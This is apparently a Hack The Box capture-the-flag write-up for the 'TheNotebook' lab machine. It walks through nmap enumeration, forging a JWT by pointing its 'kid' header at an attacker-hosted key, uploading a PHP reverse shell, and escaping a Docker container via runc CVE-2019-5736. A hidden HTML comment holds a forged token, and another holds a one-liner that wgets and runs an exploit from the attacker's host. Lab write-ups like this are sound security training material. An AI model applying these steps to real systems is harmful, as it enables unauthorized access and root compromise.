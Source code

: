 ![](theNotebook_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.230 theNotebook.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx/1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**web server**

![](screenshots/web-fpage.png)

Registering with new account and notice cookie.

![](screenshots/big-cookie.png)KID manipulationJSON Web Token) authentication cookie

![](screenshots/jwt-auth.png)

# Foothold

## JWT bypass

* **Useful tool:** 
  * [jwt_tool](https://github.com/ticarpi/jwt_tool)
  * [jwt-hack](https://github.com/hahwul/jwt-hack)

* **Resources**
  * [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/JSON%20Web%20Token/README.md)
* Online JWT Encoder – Decoder [jsonwebtoken.io](https://www.jsonwebtoken.io/)
* Online jwt generator [jwtbuilder.jamiekurtz.com](https://jwt.io/)

JWT authentication cookie is divided into three parts: header, payload, signatur. These values divided by `.`

**JSON Web Token:** `Base64(Header).Base64(Data).Base64(Signature)`

* **Header:** contain information about the JWT configuration.
* **Data:** used to store some users’ data.
* **Signature:** used to prevent data from being modified. The signature uses RS256 (RSA asymmetric encryption and private key signature) and HS256 (HMAC SHA256 symmetric encryption) algorithm.

There are multiple ways to bypass [Vickie Li](https://twitter.com/vickieli7) show in his [medium blog](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)

On this box we are doing **"KID manipulation"** via **"SSRF"**

**KID:** it allows to specify the key to be used for verifying the token.

**Creating tampered jwt**

**Header**
```json
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.15.71/privKey.key"
}
```

**Data**
```json
{
  "username": "test12",
  "email": "test12@test.com",
  "admin_cap": true
}
```

![](screenshots/jwt-created.png)

After creating jwt save its private key in a file and start web server.
<!--
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNS43MS9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QxMiIsImVtYWlsIjoidGVzdDEyQHRlc3QuY29tIiwiYWRtaW5fY2FwIjp0cnVlfQ.h2XetEdg5NzVsL7p1QvOBxsppWmjMQBzTYP_Nctdv6GPLuJnkXgSv5gcVicyzgWD_dxmbjVG5D7ilitMxLZ0KfmRROfcZ52hKkJEaYPAi6dEfSPup59bN-5Z4A3DdTycyvJRYgG8c7s_GD5gZ9ZkNDyPurD3AnxiwQWUfJvpXE8g169a4isuFsyoGv82RHq4ZQJuWgHZsS-5ZhzenrwVIjrC_6s26bCJmJwwC1CjJkGCARlAnZQIatrkhLoXYrhTy4ELlGkZOUxyCRCsueX1CtAcA2bPDbo2gyiPDJHacgu45rPH74UUxDelQZuCDL1jrFjUZdNuaZs9T4uI3H8etA
-->

now changing the `auth` value in cookie parameter and replace with new generated jwt and forward the request. If everythings gose right we get admin panel

![](screenshots/get-admin.png)

then using hackbar to load tampered cookie

![](screenshots/hackbar-load.png)

admin panel have file upload option which allowed any file to upload **reverse shell** too.

![](screenshots/file-upload.png)

upload php reverse shell get file name execute the file and get shell on the box.

![](screenshots/web-shell.png)

# Privesc

found home directory backup in the `/var/backups` folder which contains noah user home folder.

![](screenshots/back-rsa.png)

## Breaking Docker via runC

User have sudo right to run `docker exec` as any user on the box with NOPASSWD.
```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

**Docker version 18.06.0-ce, build 0ffa825**

searchsploit found exploit
```bash
❯ searchsploit Docker 18.06
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (1)                          | linux/local/46359.md
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (2)                          | linux/local/46369.md
------------------------------------------------------------------------------------ ---------------------------------
```

Also found the runc bianry
```bash
noah@thenotebook:~$ ls -la /usr/sbin/runc
-rwxr-xr-x 1 root root 7841912 Feb 18 13:45 /usr/sbin/runc
```

**runc version 1.0.0~rc6+dfsg1**

* **[CVE-2019-5736](https://www.cvedetails.com/cve/CVE-2019-5736/):** runc through 1.0-rc6, as used in Docker before 18.09.2 and other products, allows attackers to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute a command as root within one of these types of containers: (1) a new container with an attacker-controlled image, or (2) an existing container, to which the attacker previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe.

* [PoC by Frichetten@github](https://github.com/Frichetten/CVE-2019-5736-PoC)
* [Exploit](https://www.exploit-db.com/exploits/46369)

First get the inside container using sudo command
```bash
sudo -u root /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

Upload [exploit zip](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/46369.zip) inside the container

inside zip, modified `bad_init.sh` with command that you want to execute on the host in `BAD_BINARY` variable.

![](screenshots/edit-bad-init.png)

run make script
<!--mkdir /tmp/exp && cd /tmp/exp && wget 10.10.15.71:8000/CVE-2019-5736.zip && unzip CVE-2019-5736.zip && ./make.sh-->

![](screenshots/run-make.png)

Now exit the container and execute `/bin/bash` in the same container 2 times.
```bash
sudo -u root /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

![](screenshots/run-again.png)